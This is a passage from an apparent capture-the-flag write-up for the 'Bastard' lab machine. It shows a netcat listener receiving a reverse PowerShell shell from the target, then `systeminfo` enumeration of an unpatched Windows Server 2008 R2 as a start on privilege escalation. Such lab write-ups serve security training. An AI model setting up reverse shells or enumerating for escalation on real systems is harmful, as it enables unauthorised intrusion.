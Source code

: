 



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.9.
    Ncat: Connection from 10.10.10.9:62897.
    Windows PowerShell running as user BASTARD$ on BASTARD
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\inetpub\drupal-7.54>



## Privesc to system

### Enumeration

I ran `systeminfo` and noticed that there's no service path or hotfixes
applied to this box:



    PS C:\inetpub\drupal-7.54> systeminfo

    Host Name:                 BASTARD
    OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Server
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:   
    Product ID:                00496-001-0001283-84782
    Original Install Date:     18/3/2017, 7:04:46 ??
    System Boot Time:          4/3/2019, 1:56:57 ??
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               x64-based PC
    Processor(s):              2 Processor(s) Installed.
                               [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
                               [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     2.048 MB
    Available Physical Memory: 1.550 MB
    Virtual Memory: Max Size:  4.095 MB
    Virtual Memory: Available: 3.582 MB
    Virtual Memory: In Use:    513 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                               [01]: Intel(R) PRO/1000 MT Network Connection
                                     Connection Name: Local Area Connection
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.9

